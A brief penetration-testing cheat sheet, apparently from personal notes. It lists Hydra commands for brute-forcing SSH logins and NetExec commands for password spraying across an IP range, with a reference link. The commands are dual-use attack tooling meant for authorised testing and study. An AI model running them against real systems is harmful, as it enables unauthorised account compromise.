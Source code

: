 # Unix Shell

## 01 - Hydra

```
$ hydra -l <username> -P passwords.lst ssh://<IP>/<CIDR> [-s <PORT>]

$ hydra -l <username> -P passwords.lst <IP>/<CIDR> ssh [-s <PORT>]
```

## 02 - NetExec

Password spraying.

```
$ netexec ssh <IP>/<CIDR> -u users.lst -p "<password>"
```

Password spraying without bruteforce.

```
$ netexec ssh <IP>/<CIDR> -u users.lst -p passwords.lst --no-bruteforce [--continue-on-success]
```

---
## References

- [[07 - Tactics & Techniques & Procedures (TTPs) Phases/B - Vulnerability Assessment/04 - Vulnerable Network Ports/Remote Services/TODO Sort it/SSH|Password Cracking: SSH]]

- [NetExec: SSH Password Spraying](https://www.netexec.wiki/ssh-protocol/password-spraying)